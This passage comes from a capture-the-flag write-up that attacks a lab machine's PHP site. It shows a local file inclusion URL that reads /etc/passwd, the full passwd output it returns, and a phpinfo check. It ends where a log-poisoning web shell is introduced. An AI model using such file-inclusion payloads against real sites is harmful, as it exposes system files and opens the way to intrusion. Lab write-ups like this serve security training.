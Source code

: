 Entering those php scripts into the bar does run them, but there’s also an
obvious local file include that allows any site visitor to grab any file they
want: `view-source:http://10.10.10.84/browse.php?file=%2Fetc%2Fpasswd`

    
    
    # $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
    #
    root:*:0:0:Charlie &:/root:/bin/csh
    toor:*:0:0:Bourne-again Superuser:/root:
    daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
    operator:*:2:5:System &:/:/usr/sbin/nologin
    bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
    tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
    kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
    games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
    news:*:8:8:News Subsystem:/:/usr/sbin/nologin
    man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
    sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
    smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
    mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
    bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
    unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
    proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
    _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
    _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
    uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
    pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
    auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
    www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
    _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
    hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
    nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
    _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
    messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
    avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
    cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
    charix:*:1001:1001:charix:/home/charix:/bin/csh
    

With a user name charix here, we could go directly to shell. But that’s no
fun, so let’s keep attacking this web app.

### Web Shell Via Log Poisoning

The phpinfo (which is easy to get from
http://10.10.10.84/browse.php?file=phpinfo.php) does show that
`allow_url_include` is off, which eliminates direct RFI.
![](https://0xdfimages.gitlab.io/img/poison_phpinfo-zoom.png)

Log poisoning is a open route, and a good one to pursue, given the box’s name.
